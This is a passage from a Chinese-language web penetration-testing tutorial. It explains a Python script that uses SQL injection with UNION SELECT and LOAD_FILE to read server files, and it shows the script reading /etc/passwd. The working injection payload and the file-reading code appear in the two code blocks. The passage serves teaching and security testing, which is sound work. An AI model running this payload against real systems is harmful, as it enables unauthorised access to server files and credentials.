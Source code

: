 在这种情况下，`pyweb`和`phpmyadmin`是模式，其他的是表`user`等等。

让我们继续到最后一个例子。让我们转到编辑器并打开文件`SQLinjection-4.py`。这非常酷，它为攻击者打开了一个新的机会。让我们看看新函数`read_file`：

```py
def read_file(url, filename):
  new_url= url.replace("FUZZ","""A\'%20union%20SELECT%201,CONCAT('TOK',
 LOAD_FILE(\'"+filename+"\'),'TOK')--%20-""")
  req=requests.get(new_url)
  reg = ur"TOK(.+?)TOK+?"
  files= re.findall(reg,req.content)
  print req.content
  for x in files:
    if not x.find('TOK,'):
      print x
```

我们将使用来自前面代码的查询来读取文件。基本上，这里的新东西是使用`LOAD_FILE`函数。

我们可以使用这个函数，正如其名称所示，它将加载一个文件，并且我们将把内容放在我们在查询中选择的列中。我们将与 union 一起使用它。然后，在`launcher`中，我们需要调用这个函数并传入我们想要读取的文件。在这个例子中，我们使用`filename="/etc/passwd"`：

```py
  filename="/etc/passwd"
  message = "\n[+] Reading file: " + filename
  print colored(message,'green')
  print "---------------------------------"
  read_file(url,filename)
```

这个文件包含了 Linux 操作系统的用户。让我们在命令行中运行它。使用与之前相同的命令行，只是将文件名更改为`SQLinjector-4.py`。然后，哇，我们就得到了确切密码文件的内容：

![](img/00079.jpeg)
